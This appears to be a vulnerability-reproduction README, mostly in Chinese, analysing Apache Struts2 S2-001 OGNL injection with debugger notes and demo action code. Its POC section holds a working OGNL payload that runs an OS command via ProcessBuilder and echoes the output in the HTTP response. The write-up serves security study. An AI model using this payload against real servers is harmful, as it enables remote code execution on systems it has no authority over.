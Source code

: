# S2-001 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote code execution                                        |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to [Struts 2.0.9](http://people.apache.org/builds/struts/2.0.9/) or upgrade to [XWork 2.0.4](http://www.opensymphony.com/xwork/download.action) |
| Affected Software       | WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8 |
| Non-Affected Software   | WebWork 2.0, WebWork 2.1 (with altSyntax disabled, which is the default) |
| Original JIRA Ticket    | [WW-2030](http://issues.apache.org/struts/browse/WW-2030)    |

## Problem

在默认配置下，如果用户所提交的表单出现`验证错误`，后端会对用户的输入进行`解析处理`，然后返回并`显示处理结果`。 举个例子，当你提交的登录表单为`username=xishir&password=%{1+1}`时，后端验证登录失败后会返回登录界面并显示你的输入，这时password字段中的OGNL表达式已经被解析处理过了，所以会显示`%{1+1}`的解析结果`2`，从而可以构造payload进行RCE。（参考：[Struts2Vuls之S2-001漏洞复现与简要分析](https://www.codemonster.cn/2018/03/28/2018-struts2-001/)）

## Environment

| Struts2 Version | struts-2.0.1-all       |
| :-------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

![{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042](img/{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042.jpg)

payload:

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

调试建议看chybeta师傅的文章：[【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)

这里分析下漏洞成因。引用原文一句话：

> 表单验证错误并不是该漏洞的产生的原因，但表单验证错误是这个漏洞出现的场景之一。在struts2框架中，配置了Validation，倘若验证出错会往往会原样返回用户输入的值而且不会跳转到新的页面，而在最后解析页面时区解析了用户输入的值，从而执行payload。在实际场景中，比如登陆等处，往往会配置了Validation，比如限制用户名长度，数字的范围等等，从而成为了该漏洞的高发区。

Demo源码中没有使用到validation机制。个人猜测漏洞可能跟`return "error"`有关，下面在demo基础上做几个测试:)

### 1. 返回input/error/success

```java
    @Override
    public String execute() throws Exception {
        if ((this.username.isEmpty()) || (this.password.isEmpty())) {
            return "error";
        }
        if ((this.username.equals("admin"))
                && (this.password.equals("admin"))) {
            return "success";
        }
        return "error";
    }
```

构造输入，触发这三种返回。经测试，在`return "input"`和`return "error"`时payload可以执行。

### 2. success

```java
@Override
public String execute() throws Exception {
    if ((this.username.isEmpty()) || (this.password.isEmpty())) {
        return "success";
    }
    if ((this.username.equals("admin"))
            && (this.password.equals("admin"))) {
        return "success";
    }
    return "success";
}
```
payloadd都不能执行。分析了下原因，由于success跳转到的是welcome.jsp页面，该页面没有登录表单，触发不了doEndTag()方法，所以不能将用户的输入填充进来。

### 3. success + 成功页面添加标签

在2的基础上，在welcome.jsp页面添加了`<s:textfield name="username" label="username">`标签。

```jsp
<h1>Login success.</h1>
<s:textfield name="username" label="username" />
```

在首页username框填入payload，submit后跳转至welcome.jsp，发现payload可以执行。

所以我总结触发漏洞的原因是，只要用户输入的数据能够再次填充在新的页面，payload就会被执行，与return的内容无关。

那么这可能需要跳转后页面有与跳转前页面有相同的标签存在，且该标签输入内容是可控的。

上面仅是个人见解。

下面记录下个人调试笔记。

在doEndTag()处下断点：

`struts2-core-2.0.1.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class:22`

![clipboard3](img/clipboard3.png)

doEndTag()是在遇到标签结束时呼叫的方法。跟入component.end()->evaluateParams():

```java
public void evaluateParams() {
    ...
    if (this.parameters.containsKey("value")) {
            this.parameters.put("nameValue", this.parameters.get("value"));
        } else if (this.evaluateNameValue()) {
            Class valueClazz = this.getValueClassType();
            if (valueClazz != null) {
                if (this.value != null) {
                    this.addParameter("nameValue", this.findValue(this.value, valueClazz));
                } else if (name != null) {
                    String expr = name;
                    if (this.altSyntax()) {
                        expr = "%{" + name + "}";
                    }

                    this.addParameter("nameValue", this.findValue(expr, valueClazz));
                }
            } else if (this.value != null) {
                ...
        }
}
```

发现判断了一个altSyntax语法开关，如果开启则给参数加上%{}

![clipboard4](img/clipboard4.png)

跟进findValue函数，可以看到有两重循环，作用是将%{}之间的表达式取出来执行。第一次先取出username:

![clipboard5](img/clipboard5.png)

通过OgnlUtil.getValue取出username对应的值%{1+1}

![clipboard6](img/clipboard6.png)

<img src="img/clipboard7.png" alt="clipboard7" style="zoom:150%;" />

开始第二次循环

![clipboard8](img/clipboard8.png)

取出了1+1，并计算了结果。

<img src="img/clipboard9.png" alt="clipboard9" style="zoom:150%;" />

## Reference

- [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)
- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)
- https://www.codemonster.cn/2018/03/28/2018-struts2-001/
- https://www.cnblogs.com/magic-zero/p/8214034.html
